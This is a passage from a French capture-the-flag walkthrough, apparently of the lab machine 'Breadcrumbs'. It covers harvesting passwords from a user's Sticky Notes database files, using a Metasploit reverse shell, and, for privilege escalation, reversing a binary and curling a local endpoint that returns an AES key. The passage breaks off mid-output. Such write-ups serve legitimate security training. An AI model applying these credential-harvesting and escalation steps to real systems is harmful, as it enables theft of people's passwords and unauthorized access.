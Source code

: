 
Comme nous pouvons le voir, ils nous disent que : "Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager". Cela signifie que nous avons besoin du developement user.
Accédez à l'emplacement sur les fenêtres où se trouvent les sticky notes et téléchargez les 3 fichiers suivants :

```sh
plum.sqlite
plum.sqlite-shm
plum.sqlite-wal
```


```sh
juliette@BREADCRUMBS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

01/15/2021  04:10 PM    <DIR>          .
01/15/2021  04:10 PM    <DIR>          ..
01/15/2021  04:10 PM            20,480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
11/29/2020  03:10 AM             4,096 plum.sqlite
01/15/2021  04:10 PM            32,768 plum.sqlite-shm
01/15/2021  04:10 PM           329,632 plum.sqlite-wal
               4 File(s)        386,976 bytes
               2 Dir(s)   6,313,762,816 bytes free
```

Vous pouvez utiliser ``Metasploit`` pour avoir un reverse shell et télécharger les fichiers.
Obtenez toutes les notes puis ssh comme développement avec le mot de passe dans le note.


## 0x5 - Privilege Escalation

Accédez à ``C:\Development``

Le binaire "Krypter_Linux" contient des informations qui peuvent nous intéresser, donc pour voir que nous allons utiliser diréctement utiliser ``IDA``.

![hack](https://media.discordapp.net/attachments/490431433559506954/834039127304962094/unknown.png)


Nous pouvons apercevoir que à l'intérieur, il y a une commande et vous pouvez voir ce qu'elle fait lorsque vous la faites.


```sh
http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords 
```

Juste faite un curl et vous obtenez une key ``AES``.

```sh
PS C:\Development> curl http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords


StatusCode        : 200                                                                                               
StatusDescription : OK                                                                                                
Content           : selectarray(1) {                                                                                  
                      [0]=>                                                                                           
```